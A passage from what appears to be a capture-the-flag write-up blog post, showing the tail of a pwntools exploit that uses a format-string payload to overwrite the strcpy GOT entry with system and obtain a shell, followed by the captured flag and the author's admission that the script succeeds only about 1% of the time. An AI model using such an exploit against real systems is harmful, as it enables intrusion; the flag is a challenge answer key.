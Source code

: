 payload = fmtstr_payload(offset, {strcpyGot:systemSym})
#print(len(payload))
print(payload)
assert(len(payload) < 100)
custom(payload)
custom("0")
custom("0")
p.sendlineafter(b"(y/n): ", "y")
custom("/bin/sh")
custom("/bin/sh")
custom("/bin/sh")
p.sendlineafter(b"(y/n): ", "y")
p.sendlineafter(b"> ", "0")


#gdb.attach(p)
p.interactive()
#lactf{golf_balls_taste_great_2tscx63xm3ndvycw}
{% endhighlight %}

### Disclaimer

My script doesnt work 100% of the time, or rather, it only works 1% of the time. Firstly, its because the format string payload length is more than 100, but the program only takes in 100 characters as input. Secondly, Im not really sure whats happening, but I assume something is not aligning properly. So, for my script to work, the length of the payload must be < 100 and the internal things must align properly. I could spend time debugging the script and "try" to figure out whats wrong, but when I was solving this challenge, I was tired and didnt bother doing so. I just kept running the script until it eventually works.

Heres proof so you dont think I'm crazy lol

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/234483ac-d124-45e4-ab6e-39f935b83808)

